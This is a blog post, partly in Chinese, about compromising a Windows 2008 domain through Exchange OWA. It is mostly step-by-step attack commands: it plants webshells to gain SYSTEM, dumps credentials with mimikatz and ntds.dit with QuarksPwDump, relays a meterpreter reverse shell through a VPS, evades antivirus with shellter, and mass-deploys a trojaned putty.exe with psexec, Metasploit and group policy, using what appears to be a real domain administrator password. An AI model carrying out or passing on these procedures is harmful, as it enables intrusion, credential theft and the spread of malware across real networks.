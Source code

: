 ```yaml
---
layout:     post
title:      windows 2008 domain controllers
date:       2016-05-09
summary:    first time to get a domain controllers,this is not workgroup,but dc
categories: web
tags:
 - doamin controllers
 - inside network
 - aspx
 - exchange server
 - outlook
---
```


### 0x01 upload backup webshells

```
1.there exists a webshell upload by someone else:https://xx.oo.xx/owa/auth/error1.aspx
2.webshell in different folder has different privileges
    https://xx.oo.xx/aspnet_client/system_web/2_0_50727/some.aspx      C:\inetpub\wwwroot\> whoami ---> iis apppool\defaultapppool
    https://xx.oo.xx对应C:\inetpub\wwwroot\      目录下(index.html)   iis权限
    https://xx.oo.xx/owa/auth/some.aspx    C:\inetpub\wwwroot\> whoami ---> nt authority\system
    https://xx.oo.xx/owa/对应C:\Program Files\Microsoft\Exchange Server\V14\ClientAccess\Owa\ 目录 system权限
3.upload a strong webshell but found "/" error
    aspx大马连接报错"/"解决方法:https://www.asp-muma.com/?post=97
    my way defferent from uppon one:
    create a new folder,create a web.config file with below content:
    --------------------------content------------------------
    <configuration>
        <system.web>
            <customErrors mode="Off"/>
        </system.web>
    </configuration>
    --------------------------end of content----------------
    then upon a strong webshell to my new created folder,found no more error.
4.different parse 
    C:\Program Files\Microsoft\Exchange Server\V14\ClientAccess\Owa\xxoo\xxoo\大马.aspx is ok to parse
    C:\Program Files\Microsoft\Exchange Server\V14\ClientAccess\Owa\xxoo\xxoo\一句话.aspx is not ok to parse
    C:\Program Files\Microsoft\Exchange Server\V14\ClientAccess\Owa\一句话.aspx is ok to parse
    C:\Program Files\Microsoft\Exchange Server\V14\ClientAccess\Owa\auth\一句话.aspx is ok to parse
    C:\inetpub\wwwroot\大马.aspx is not ok to parse before my "adding a new web.config" way in upon 3
    C:\inetpub\wwwroot\一句话.aspx is ok to parse,with iis pri
```

### 0x02 find domain controllers and dc administrator username & password
    https://drops.wooyun.org/tips/421 
        dsquery server(best)
        nslookup -type=SRV _ldap._tcp.baidu.com(baidu.com is a domain name,others should be like xxx.org.xx)
        netdom query fsmo

    mimikatz
        log
        privilege::debug
        sekurlsa::logonpasswords

    at 23:0 /every:m,t,w,th,f,s,su "d:\1.bat"
    d:\1.bat:
    "C:\recycler\srclog.exe" -w >> "C:\recycler\test.txt"

### 0x03 get all hashs in the domain controllers machine
    link a:
        https://drops.wooyun.org/tips/6617
    link b:
        https://blogs.msdn.microsoft.com/adioltean/2005/01/05/script-recipe-of-the-week-how-to-copy-an-opened-file/
    *attention*:
        in link a,the script name to use shadowcopy is vsshadow.exe
        in link b,the script name to use shadowcopy is vshadow.exe
    I get vshadow.exe from installing https://www.microsoft.com/en-us/download/confirmation.aspx?id=23490,then search vshadow.exe in the system,this is a quick link:
        https://pan.baidu.com/s/1cMC07W
    there are three files:shadowcopy_ntds.bat,quarkspwdump.exe(v0.2b),vshadow.exe
    step0:
        upload these three files to target machine's folder,eg. c:\windows\myfolder\
    step1:
        shadowcopy_ntds.bat c:\windows\ntds\ntds.dit c:\windows\myfolder\ntds.dit
        (this shadowcopy_ntds.bat is from link b,it can copy any file while the file is being used)
    step2:
        esentutl /p /o ntds.dit
    step3:
        QuarksPwDump.exe --dump-hash-domain -with-history -nt c:\windows\ntds\ntds.dit -o c:\windows\myfolder\log.txt
        (or quarkspwdump.exe --dump-hash-domain -hist -nt c:\windows\ntds\ntds.dit -o c:\windows\myfolder\log.txt)
        the origin commands from link a is "QuarksPwDump.exe -dhb -hist -nt ntds.dit -o log.txt",which proved wrong with my quarkspwdump.exe file

### 0x04 get a meterpreter reverse shell
    1.found windows firewall is not open on the target,but "in/out rules exists"
    2.found reverse port like 200 can not get it successfully
    3.can not find why the meterpreter shell can not reverse connecting msf successfully
    4.do these to get meterpreter reverse shell
        target:run reverse_shell.exe(set reverse port to 53)
        vps:lcx -listen 300 53
        local pc:msf-->set lport 300-->set rhost vps's ip
    5.found 53 is ok
    6.better to use shellter to supass avkiller

### 0x05 批量种马
    1>psexec.exe @pc.txt -u ABIMAQ\Administrator -p k78m90 -c c:\recycler\putty.exe
    2>msf
        use exploit/windows/smb/psexec
        set EXE::Custom /root/桌面/putty.exe
        set RHOST -> use armitage to choose pc.txt(192.168.11.1,192.168.11.2,etc)
        exploit
        [msf seems better than psexec.exe]
    3>msf生成msi后用组策略管理编辑器添加安装msi的动作,详情如下图

<img src="https://raw.githubusercontent.com/3xp10it/pic/master/%E5%9F%9F%E7%8E%AF%E5%A2%83%E6%89%B9%E9%87%8F%E5%AE%89%E8%A3%85msi.jpg">
